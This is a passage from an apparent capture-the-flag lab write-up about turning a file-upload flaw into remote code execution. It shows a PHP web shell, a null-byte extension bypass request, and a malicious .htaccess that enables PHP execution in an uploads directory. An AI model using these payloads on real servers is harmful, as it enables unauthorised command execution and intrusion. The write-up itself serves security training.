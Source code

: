 
However, when we view our file, it does not execute our code.&#x20;

```
$ curl http://access.offsec/uploads/cmd.php%2500 
<?php system($_REQUEST['cmd']); ?>
```

### .htaccess Overwrite --> RCE

I found this pretty weird, why would NOT be executing PHP? I googled for what can block PHP execution on websites, and it brought me to this page detailing about how the `.htaccess` file can do that:

{% embed url="https://www.wpbeginner.com/wp-tutorials/how-to-disable-php-execution-in-certain-wordpress-directories/" %}

Since we have an LFI, we can try to overwrite the current `.htaccess` file. This file sort of 'executes' for the directory it is in. So if we upload a `.htaccess` file to the `/uploads` directory allowing PHP exeuction, it should allow webshells to work within the `/uploads` directory only.&#x20;

We can upload this file:

```
<IfModule mime_module>
AddHandler php5-script .gif
SetHandler application/x-httpd-php
</IfModule>
```

<figure><img src="../../../.gitbook/assets/image (763).png" alt=""><figcaption></figcaption></figure>
